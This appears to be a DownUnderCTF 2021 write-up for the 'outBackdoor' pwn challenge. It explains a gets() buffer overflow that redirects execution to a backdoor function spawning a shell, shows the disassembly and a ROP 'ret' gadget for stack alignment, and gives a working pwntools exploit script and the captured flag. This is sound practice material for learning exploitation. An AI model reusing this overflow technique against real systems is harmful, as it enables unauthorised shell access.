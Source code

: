 ```yaml
---
title: "[writeup][DownUnderCTF 2021] pwn-outbackdoor"
date: 2021-10-09 13:00:46
tags:
    - writeup
    - ctf
    - ductf
    - pwn
    - buffer overflow
categories:
    - CTF
---
```


## Mitigations

```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

## Solution


### vuln 1
there is a backdoor function called `outBackdoor` in the function, which give as a shell.

![stack](./images/2021-10-09_121913.jpg)

<!-- more -->

### vuln 2

the main function utilze gets, we can overwrite rip to outBackdoor which give as a shell when return.

simplely write 0x10 bytes + 0x8 btyes (rbp size) + 0x004011d7 in 8 bytes to overwrite rip and get flag

however, this will cause **EOF error**

this is because the stack is **not aligned**, we need to align the stack to 16x.

since it is x64 system, each data worth 8 bytes, add a ret operation to pop 1 value stack before call the backdoor will solve this problem.

```
$ ROPgadget --binary outBackdoor | grep ": ret"
0x0000000000401016 : ret
0x000000000040117a : ret 0xfffe
0x0000000000401062 : retf 0x2f
```

so write x10 bytes + 0x8 btyes (rbp size) + 0x401016 + 0x004011d7 to get shell.

## code

```
int main (int argc, char **argv, char **envp);
; var char *s @ rbp-0x10
0x00401195      push rbp
0x00401196      mov rbp, rsp
0x00401199      sub rsp, 0x10
0x0040119d      mov eax, 0
0x004011a2      call buffer_init   ; sym.buffer_init
0x004011a7      lea rdi, str.Fool_me_once__shame_on_you._Fool_me_twice__shame_on_me. ; 0x402008 ; const char *s
0x004011ae      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011b3      lea rdi, str.Seriously_though__what_features_would_be_cool__Maybe_it_could_play_a_song ; 0x402048 ; const char *s
0x004011ba      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011bf      lea rax, [s]
0x004011c3      mov rdi, rax       ; char *s
0x004011c6      mov eax, 0
0x004011cb      call gets          ; sym.imp.gets ; char *gets(char *s)
0x004011d0      mov eax, 0
0x004011d5      leave
0x004011d6      ret
outBackdoor ();
0x004011d7      push rbp
0x004011d8      mov rbp, rsp
0x004011db      lea rdi, str.W...w...Wait__Who_put_this_backdoor_out_back_here ; 0x402098 ; const char *s
0x004011e2      call puts          ; sym.imp.puts ; int puts(const char *s)
0x004011e7      lea rdi, str.bin_sh ; 0x4020cd ; const char *string
0x004011ee      mov eax, 0
0x004011f3      call system        ; sym.imp.system ; int system(const char *string)
0x004011f8      nop
0x004011f9      pop rbp
0x004011fa      ret
0x004011fb      nop dword [rax + rax]
```


## exploits

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=pwn-2021.duc.tf' '--port=31921' outBackdoor
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('outBackdoor')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31921)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
import os
print(io.recv(1024))
io.send(os.urandom(0x10+0x8)+(0x401016).to_bytes(0x8,"little")+(0x004011d7).to_bytes(0x8,"little"))
io.interactive()
```

DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}